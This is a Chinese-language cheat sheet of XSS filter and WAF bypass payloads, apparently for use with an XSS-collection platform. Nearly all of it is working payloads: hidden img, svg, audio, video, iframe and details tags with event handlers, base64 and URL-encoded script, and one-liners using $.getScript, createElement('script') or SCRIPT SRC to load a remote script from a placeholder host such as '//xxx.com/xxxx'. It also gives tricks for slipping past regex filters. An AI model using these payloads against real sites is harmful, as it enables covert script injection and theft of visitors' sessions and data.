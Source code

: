 # x55-bypass

---

### 规则

```
1.x55平台做了http重定向https，//无论解析成http和https都可以使用；x55平台地址“？”后面可以不要
2.标签与第一个属性之间可以用“/”代替空格
3.引号内容可以转10进制或者16进制
4.style=display:none  #设置成无显示，PS：有些标签不一定支持
5.域名可以换成真实IP、url编码、双字节编码、16进制、8进制
6.网站有jq可以使用$.getScript("js地址")
7.如果//alert不行可以试试//prompt
```

### 常用

- 变形
  ```
  #//alert 或者prompt -> 网站有jq可以使用: $.getScript("js地址")
                         -> createElement('script');body.appendChild(s);s.src='js地址'>
                         -> eval(atob('YWxlcnQoJzEyMycp')) #base64接码：alert('123')
  ```
-  无script标签

  ```
  ##// <BODY/ONLOAD=alert(1)>   
  ##// <SVG/ONLOAD=alert(1) style=display:none>
  ##// <audio src=x onerror=alert("xss");>
  ##// <video style=display:none><source onerror="alert(1)">
  ```

- img（不显示图片）

  ```
  ##// <img/style=display:none src=# onerror=eval(atob('YWxlcnQoJzEyMycp'))>
  注：YWxlcnQoJzEyMycp => 弹窗123
  ##// <img/src=# style=display:none onerror=$.getScript("js地址")>
  ##// <img/src=# style=display:none onerror=createElement('script');body.appendChild(s);s.src='js地址'>
  
  ```

- iframe data:text/html  # 目前只能测试能在iframe上使用

  ```
  ##// <iframe/style="display:none" src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">##</iframe>
注：%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E为url编码 -> ## 弹窗1
  ```

- details 详细标签 #可能会把后面的数据隐藏

  ```
  ##// <details/open/ontoggle=alert(1) style=display:none>
  ```



### 绕过规则

```
https://www.freebuf.com/articles/web/153055.html
https://www.cnblogs.com/wjrblogs/p/12341190.html
```

###  bypass 常规waf(x=alert(1))

```
冷门标签绕过：

##// `!-- --`绕过:
##// `<!--<img src="--><img src onerror=x//">`

##// `<style><img src="</style><img src onerror=x//">`
```

### 绕过<script src>的正则

```
##// <SCRIPT a=">" SRC="//xxx.com/xxxx"></SCRIPT>   
```

### 当fuzz出可以执行js代码的标签后，执行在当前页面添加script标签语句

```
##// <img src=# onerror=s=createElement('script');body.appendChild(s);s.src='js地址';>
```



